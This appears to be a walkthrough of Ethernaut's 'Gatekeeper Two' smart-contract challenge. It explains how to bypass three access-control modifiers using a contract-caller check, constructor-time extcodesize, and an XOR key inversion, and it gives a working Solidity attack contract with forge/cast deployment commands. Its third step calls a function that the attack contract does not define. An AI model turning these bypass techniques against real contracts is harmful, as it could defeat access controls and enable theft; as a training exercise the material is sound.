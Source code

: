 ## Gatekeeper Two Level Outline

**Difficulty : 6/10**

This gatekeeper introduces a few new challenges. Register as an entrant to pass this level.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1);
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xdCeA38B2ce1768E1F409B6C65344E81F16bEc38d)

## Solution

To pass the first modifier `gateOne()`, the transaction needs to come from a smart contract.

To pass the second modifier `gateTwo()`, the assembly line `extcodesize(a)` checks the code size as address `a`. To bypass this check, we put our exploit code in the contracts constructor as the contracts code is only stored on the EVM after the constructor finishes calling and setting up it's state. So by calling our exploit in the constructor, `extcodesize` will return 0.

To pass the third modifier `gateThree()`, uses xor cipher to hide a key. But the xor operation has the property 

```
if,
A xor B = C
then,
A xor C = B


uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == uint64(0) - 1
A = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) 
B = uint64(_gateKey) 
C = uint64(0) - 1

so, 
uint64(_gateKey) = uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(0)-1
```

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Attack {
    constructor(address _gateKeeper) {
        GateKeeper gateKeeper = GateKeeper(_gateKeeper);
        bytes8 key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ (type(uint64)).max);
        gateKeeper.enter(key);
    }
}

interface GateKeeper {
   function enter(bytes8) external returns(bool);
}
```
> notice how we replaced 'uint64(0)-1' with type(uint64).max

##### 2. 

```console
forge create src/Contract.sol:Attack --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

##### 3. Call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "enter()" --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
[0xSage's write up on this level](https://medium.com/coinmonks/ethernaut-lvl-14-gatekeeper-2-walkthrough-how-contracts-initialize-and-how-to-do-bitwise-ddac8ad4f0fd) goes into more depth on these topics
